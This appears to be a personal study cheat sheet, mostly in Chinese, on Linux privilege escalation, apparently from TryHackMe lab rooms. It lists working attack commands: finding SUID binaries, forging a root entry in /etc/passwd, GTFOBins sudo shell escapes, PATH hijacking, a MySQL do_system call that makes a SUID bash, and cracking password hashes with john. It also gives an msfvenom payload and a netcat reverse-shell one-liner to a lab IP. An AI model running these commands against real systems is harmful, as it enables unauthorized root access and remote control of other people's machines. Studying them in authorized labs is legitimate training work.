 	
###SUID : 
		--> 讀取 (4)、寫入 (2) 和執行 (1) => 7
		--> find / -perm -u=s -type f 2>/dev/null
		--> ./SUID file
### /etc/rasswd :
		--> x:0:0:root:/root:/bin/bash
		--> 使用者名稱:密碼(X):UID(0 root):GID(0 root):ID資訊:主目錄:shell
		
		=> openssl passwd -1 -salt new 123
			=> new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
### sudo -l 
		--> GTFOBins
			=> vi : sudo vi -c ':!/bin/sh' /dev/null
### crontab 
		--> # m h dom mon dow 使用者指令
		
		--> msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
			=> msfvenom -p cmd/unix/reverse_netcat lhost=10.11.92.230 lport=8888 R
			
		--> 
		--> mkfifo /tmp/vqqkpvj; nc 10.11.92.230 8888 0</tmp/vqqkpvj | /bin/sh >/tmp/vqqkpvj 2>&1; rm /tmp/vqqkpvj
### Path :
		--> #echo "[whatever command we want to run]" > [name of the executable we're imitating] # imitating--假冒
		--> cd /tmp
		--> echo "/bin/bash" >> ls
		--> chmod +x ls
		--> export PATH =/tmp:$PATH
		
		=> ./script
## Linux PrivEsc
	--> ssh user@10.10.118.228 |  password321
	--> https://tryhackme.com/r/room/linuxprivesc
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
	
	--> /etc/shadow 檔案包含使用者密碼雜湊值
		--> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
		--> su root + password
		--> 新的密碼雜湊 : 
	--> /etc/passwd 檔案包含有關使用者帳戶的資訊
		--> mkpasswd -m sha-512 newpasswordhere
		--> openssl passwd newpasswordhere
	--> GTFOBins ( https://gtfobins.github.io ) 
		--> sudo -l 
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
